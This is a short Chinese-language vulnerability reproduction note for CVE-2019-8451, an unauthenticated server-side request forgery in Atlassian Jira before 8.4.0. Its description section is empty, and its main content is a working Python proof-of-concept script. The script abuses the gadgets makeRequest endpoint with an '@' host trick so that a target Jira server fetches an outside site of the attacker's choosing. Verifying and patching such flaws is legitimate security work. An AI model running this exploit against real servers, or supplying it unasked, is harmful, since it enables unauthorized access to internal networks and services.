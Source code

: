 （CVE-2019-8451）Atlassian Jira 未授权SSRF漏洞验证
==================================================

一、漏洞简介
------------

二、影响范围
------------

Atlassian Jira \< 8.4.0

三、复现过程
------------

![](./.resource/(CVE-2019-8451)AtlassianJira未授权SSRF漏洞验证/media/rId24.png)

> https://github.com/ianxtianxt/CVE-2019-8451

    #coding:utf-8
    import requests

    host = 'http://xx.xx.xx.xx:8080'
    header = {
                            'X-Atlassian-Token': 'no-check',
                            'Connection': 'close'
                    }

    url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
    html = requests.get(url = url,headers = header)
    print html.text
